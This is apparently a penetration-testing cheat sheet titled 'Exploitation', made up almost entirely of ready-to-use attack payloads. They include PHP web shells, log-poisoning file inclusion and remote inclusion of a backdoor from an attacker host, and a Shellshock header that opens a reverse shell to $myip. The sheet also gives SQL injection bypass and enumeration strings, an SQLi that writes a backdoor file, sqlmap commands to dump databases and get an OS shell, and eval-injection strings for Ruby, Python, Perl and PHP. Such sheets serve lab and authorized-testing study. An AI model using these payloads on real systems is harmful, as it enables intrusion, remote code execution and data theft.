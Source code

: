 # Exploitation

## <a href='https://github.com/leecybersec/web-shell' target="blank">WebShell</a>

## Virtual hosting

> Virtual hosting is a method for hosting multiple domain names (with separate handling of each name) on a single server (or pool of servers).

``` bash
$ cat /etc/hosts

127.0.0.1       localhost
192.168.11.134 weakness.jth
```

## Create Passwd Directory for Brute Force

``` bash
cewl -m 5 http://$ip/joomla/ > passwd.txt
```

## Directory Traversal

Unix

``` bash
/etc/passwd
```

Windows

``` cmd
c:\boot.ini
c:\windows\system32\drivers\etc\hosts
```

## File Inclusion

### Local File Inclusion

``` bash
$ nc -nv 192.168.11.131 80
(UNKNOWN) [192.168.11.131] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

HTTP/1.1 400 Bad Request
```

``` bash
curl http://192.168.11.131/file.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

### Remote File Inclusion

``` php
<?php echo shell_exec($_GET['cmd']); ?>
```

``` bash
curl http://target/?page=http://$ip/backdoor.php&cmd=id
```

## <a href='https://github.com/mubix/shellshocker-pocs' target="blank">Shellshock POC</a>

``` bash
curl -H "user-agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/$myip/445 0>&1'" http://$ip/cgi-bin/user.sh
```

### PHP Wrappers

``` bash
http://192.168.11.131/file.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

## SQL Injection

### Authentication Bypass

``` bash
admin' or 1=1 LIMIT 1;#
```

### Enumerating the Database

``` bash
order by 3
```

``` bash
union all select 1, 2, 3
```

``` bash
union all select 1, @@version, 3
```

``` bash
union all select 1, table_name from information_schema.tables, 3
```

``` bash
union all select 1, column_name from information_schema.columns where table_name='users', 3
```

``` bash
union all select 1, username, password from users
```

### SQLi to Code Execution

Read file

``` bash
union all select 1, load_file('C:/Windows/System32/drivers/etc/hosts'), 3
```

Write backdoor

``` bash
union all select 1, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php', 3
```

### Automating SQL Injection

``` bash
sqlmap -u http://$ip/debug.php?id=1 -p "id"
```

dump databases

``` bash
sqlmap -u http://$ip/debug.php?id=1 -p "id" --dbms=mysql --dump
```

execute a shell

``` bash
sqlmap -u http://$ip/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```

## Command Execution

```bash
;id
`id`
$(id)
```

## Code Execution

### Ruby 

``` bash
eval "\""+params['1']+"\""

?1="%2b`id`%2b"
```

### Python

``` bash
eval('"'+1+'"')

"%2bos.system('id')%2b"

"%2bos.popen('id').read()%2b"

"%2b__import__('os').popen('id').read()%2b"

"%2b__import__('os').popen(__import__('base64').b64decode('aWQ=')).read()%2b"
```

### Perl

``` bash
eval("return '".$FORM{1}."'");

/cgi-bin/form?1='.`id`.'
```

### PHP

<a href='https://www.php.net/manual/en/function.eval.php' target="blank">eval()</a>

``` bash
$s="echo \"".$_GET['1']."\";";

eval($s);

?1=".system('id')."
```

usort()

``` bash
$1 = $_GET["1"];

usort(function('$a, $b', 'return strcmp($a->'.$1.',$b->'.$1.');'));

?1=id);}system('id');//
```

preg_replace()

``` bash
preg_replace($_GET["1"], $_GET["2"], $_GET["3"]);

?1=/x/e&2=system('id')&3=x
```

assert()

``` bash
assert(trim("'".$_GET['1']."'"));

echo htmlentities($_GET['1']);

?1=hacker'.system('id').'
```